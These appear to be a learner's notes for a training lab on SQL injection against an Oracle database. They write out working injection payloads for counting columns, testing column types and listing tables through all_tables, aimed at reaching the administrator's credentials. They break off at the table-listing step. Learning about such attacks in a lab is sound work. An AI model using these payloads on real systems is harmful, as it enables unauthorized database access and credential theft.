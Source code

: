 Lab #10 - SQL injection attack, listing the databse contents on Oracle

End Goals: 
- Determine which table contains the usernames and password
- Determine the column names in table
- Outupt the content of the table
- Login as the administartor user


Analysis:

1) Determine the number of columns
' order by 3 -- -> internal server error

3 - 1 = 2

2) Find data type of columns
' UNION select 'a', 'a' from DUAL --
-> Oracle database
-> both columns accept type text

3) Output the list of tables in the database

' UNION SELECT table_name, NULL FROM all_tables
